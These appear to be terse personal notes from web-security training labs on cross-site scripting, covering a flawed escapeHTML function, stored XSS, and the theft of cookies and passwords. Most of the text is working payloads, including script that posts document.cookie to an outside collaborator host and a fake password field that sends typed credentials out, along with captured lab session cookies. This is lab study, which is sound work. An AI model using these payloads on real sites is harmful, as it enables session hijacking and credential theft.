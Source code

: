 https://www.w3schools.com/js/js_comments.asp

{"results":[],"searchTerm":"asdasd\\"}//"}
    
GET /search-results?search=asdasd\"};alert(123);//  
                                                 
<script src='resources/js/loadCommentsWithVulnerableEscapeHtml.js'></script>
<script>loadComments('/post/comment')</script>
    
### Lab: Stored DOM XSS

function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}    

replace only first occurence lol.

<><img src=1 onerror=alert(1)>
    
### Lab: Exploiting cross-site scripting to steal cookies
    
author name and comment <h1>hello</h1>
    
comment is vulnerable to xss
    
author name and comment <script>alert()</script>

<script>
fetch('https://5djr73bv19nm3is4cuvw3xmzhqngb5.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: "proof of concept"});
fetch('https://5djr73bv19nm3is4cuvw3xmzhqngb5.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: document.cookie});
</script>

secret=ldEm7IMPRZNhtTA2ZxDowFQTdrGC5Gei; session=GWMx6l5YpHDr8DGTJEsqj62IsirAkBz8

```
GET / HTTP/1.1
Host: 0a030042040f4c53c04a3a6a008d00cb.web-security-academy.net
Cookie: secret=ldEm7IMPRZNhtTA2ZxDowFQTdrGC5Gei; session=GWMx6l5YpHDr8DGTJEsqj62IsirAkBz8 # edit this
...
```

### Lab: Exploiting cross-site scripting to capture passwords    

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://gp903vt8a18clqz08b851wbyyp4hs6.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
    